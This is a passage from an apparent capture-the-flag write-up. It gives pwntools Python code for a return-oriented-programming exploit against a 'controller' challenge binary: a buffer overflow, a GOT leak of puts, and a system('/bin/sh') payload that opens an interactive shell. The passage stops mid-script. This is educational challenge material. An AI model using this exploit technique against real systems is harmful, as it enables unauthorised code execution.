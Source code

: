 ```python
payload += p64(bin_sh)
payload += p64(system)

#Sending the payload
log.success("Sending the payload")
send(payload)
r.interactive()
```

### Final exploit
Overall this was a fun challenge and I once again learned something new about ROP attacks.

Here is my final exploit:

```python
from pwn import *

#Settings
filename = "controller"
remote = False
junk = b"A"*32

def send(payload):
    r.sendlineafter(" the amount of 2 different types of recources:", "-198 1 3")
    r.recvuntil("Do you want to report the problem?")
    r.sendlineafter(">", payload)
    r.recvuntil(" Problem ingored\n")

def start(elf, ssh=False):
    if remote:
        if ssh:
            s = ssh(host="", user="", password="")
            return [s.process(), ELF("libc.so.6")]
        else:
            return [remote("", 1337), ELF("libc.so.6")]
    else:
        return [elf.process(), ELF('/lib/x86_64-linux-gnu/libc.so.6')]


#Start the processes.
elf = ELF(filename)
r = start(elf)[0]
libc = start(elf)[1]
rop = ROP(elf)

#Base gadgets
ret_addr = (rop.find_gadget(['ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] # pop rdi; ret
log.info(f"pop rdi @ {hex(pop_rdi)}")
log.info(f"return address @ {hex(ret_addr)}")


#STAGE 1.
log.success("Beginning STAGE 1.")
got_puts = elf.got["puts"]
plt_puts = elf.plt["puts"]
plt_main = elf.symbols["main"]
log.info(f"got_puts @ {hex(got_puts)}")
log.info(f"plt_puts @ {hex(plt_puts)}")
log.info(f"plt_main @ {hex(plt_main)}")

payload = junk
payload += p64(ret_addr)
payload += p64(pop_rdi)
```